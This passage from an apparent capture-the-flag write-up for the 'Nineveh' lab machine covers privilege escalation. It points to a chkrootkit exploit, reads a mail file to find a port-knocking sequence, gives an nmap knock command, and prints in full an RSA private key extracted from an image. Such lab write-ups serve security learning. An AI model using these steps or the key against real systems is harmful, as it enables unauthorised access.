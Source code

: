 ```console
```
This is standard output of `chkrootkit` which to my knowledge is vulnerable to a privilege escalation bug - <https://www.exploit-db.com/exploits/33899/>. The link describes it pretty well and therefore I don't think other explanation is needed! Go and escalate! 

***

## Longer method

There is an email left for `amrois` inside `/var/mail/amrois`. Simply *cat* it:

```console
$ cat /var/mail/amrois
From root@nineveh.htb  Fri Jun 23 14:04:19 2017
Return-Path: <root@nineveh.htb>
X-Original-To: amrois
Delivered-To: amrois@nineveh.htb
Received: by nineveh.htb (Postfix, from userid 1000)
        id D289B2E3587; Fri, 23 Jun 2017 14:04:19 -0500 (CDT)
To: amrois@nineveh.htb
From: root@nineveh.htb
Subject: Another Important note!
Message-Id: <20170623190419.D289B2E3587@nineveh.htb>
Date: Fri, 23 Jun 2017 14:04:19 -0500 (CDT)

Amrois! please knock the door next time! 571 290 911
```
This is a reference to [port knocking](https://en.wikipedia.org/wiki/Port_knocking). A certain port can be opened (in Nineveh's case SSH - from `cat /etc/knockd.conf`) by using a correct knocking combination. You can do this by using nmap for example:

```console
root@EdgeOfNight:~# nmap -Pn --host-timeout 201 --max-retries 0 -p 571,290,911 10.10.10.43
```

If you nmap the target after the knock you will notice that SSH is open. Now we just need the password for SSH... Hydra again? No! Finding the key is tricky - you need to run `strings` command on 
`/var/www/ssl/secure_notes/nineveh.png`.
```console
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
```